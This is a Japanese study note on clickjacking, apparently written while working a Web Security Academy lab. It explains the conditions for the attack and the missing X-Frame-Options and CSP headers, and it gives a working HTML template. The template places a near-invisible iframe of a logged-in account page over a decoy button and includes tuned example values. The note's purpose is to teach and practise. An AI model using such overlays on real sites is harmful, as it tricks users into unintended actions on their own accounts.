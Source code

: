 ## 脆弱性の説明
- 攻撃者が自分自身で作ったwebサイトにユーザを誘導し、透明化してある正規のサイトの下に攻撃者が作ったボタンを配置する。そうすることで、ユーザはそのボタンを押すが、透明化してある正規のサイトのボタンが押されることによって、ユーザが意図しないリクエストを行ってしまう。

## 攻撃の条件
- 攻撃者が実行させようと使用している処理にログイン後のセッションIDや、CSRFトークンが必要な場合はユーザが事前にそれらの値を持っていることが前提となる。
- サーバ側の実装で別ドメインからの繊維が可能であること。具体的には以下のレスポンスヘッダーが実装されてない場合、悪用できる可能性がある。
```markdown
1. レスポンスヘッダにX-Frame-Optionsヘッダが存在すること

2. レスポンスヘッダまたはレスポンスボディにContent-Security-Policyヘッダ相当の要素が存在すること
```

## 手順 ※一度削除すると20分で何もできなくなるので改めて記載する。
1. 被害者操作:ログインをする。
![[Pasted image 20251002234913.png]]
2. 罠サイトの構築
```html
<style>
    iframe { /** ←これが実際のページ **/
        position:relative;
        width:$width_value; /** 横幅を設定 **/
        height: $height_value; /** 立幅を設定 **/
        opacity: $opacity; /** 明度の設定。ページ作成時は0.1で実際に公開するときは0.0001にする。 **/
        z-index: 2;
    }
    div { /** ←自作するボタン(最背面に設置を行う) **/
        position:absolute;
        top:$top_value; /** ←高さ調整 **/
        left:$side_value;/** ←横幅調整 **/
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"> /** ターゲットのサイト **/
</iframe>
```
- ↓実際の記入例
```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0ada00ed03368e89800b0395003e008a.web-security-academy.net/my-account"></iframe>
```

3. 調整時の実際の画面は以下の様になる。
![[Pasted image 20251003174022.png]]
![[Pasted image 20251003174125.png]]

---
## 事前入力されたフォーム入力によるクリックジャッキング
Getで送信される入力フォーム送信前にテキスト入力を要求するウェブサイトもある。
URLに値を攻撃者が準備をして、任意の値を被害者に送信させる。
